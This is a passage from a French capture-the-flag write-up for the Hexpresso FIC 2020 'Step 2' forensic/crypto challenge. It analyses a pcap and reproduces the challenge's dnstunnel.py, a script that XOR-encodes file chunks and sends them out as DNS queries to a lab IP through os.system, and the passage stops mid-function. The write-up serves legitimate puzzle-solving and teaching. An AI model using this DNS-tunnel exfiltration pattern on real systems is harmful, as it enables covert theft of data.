 https://ctf.hexpresso.fr/1f1bd383026a5db8145258efb869c48f

| Event        | Challenge | Category | Solves |
| ------------ | --------- | -------- | ------ |
| CatureTheFic | Step 2    | Forensic / Crypto      | 531    |

### II.1. Etat de l'art

![](/lib/images/writeups/2020_hexpresso_fic/upload_264dea3e7b82050631a5215821682f40.png)

Cette deuxième épreuve nous laisse avec un fichier pcap.

On remarque différents types de flux dont beaucoup de paquets utilisant le protocole DNS. Après avoir suivi le HTTP Stream sur Wireshark de certains paquets, on remarque que l'utilisateur a voulu implémenté un tunnel DNS en python (dnstunnel.py) avec un algorithme de chiffrement maison laissant à désirer.

![](/lib/images/writeups/2020_hexpresso_fic/upload_6343d17e234d7f87f3f884dc1c16c905.png)


```python
#!/usr/bin/python3
# I have no idea of what I'm doing

#Because why not!
import random
import os

f = open('data.txt','rb')
data = f.read()
f.close()

print("[+] Sending %d bytes of data" % len(data))

#This is propa codaz
print("[+] Cut in pieces ... ")

def encrypt(l):
    #High quality cryptographer!
    key = random.randint(13,254)
    output = hex(key)[2:].zfill(2)
    for i in range(len(l)):
        aes = ord(l[i]) ^ key
        #my computer teacher hates me
        output += hex(aes)[2:].zfill(2)
    return output

def udp_secure_tunneling(my_secure_data):
    #Gee, I'm so bad at coding
    #if 0:
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data
    os.system(mycmd)
    #We loose packet sometimes?
    os.system("sleep 1")
    #end if

def send_data(s):
    #because I love globals
    global n
    n = n+1
    length = random.randint(4,11)
    # If we send more bytes we can recover if we loose some packets?
    redundancy = random.randint(2,16)
    chunk = data[s:s+length+redundancy].decode("utf-8")
    chunk = "%04d%s"%(s,chunk)
```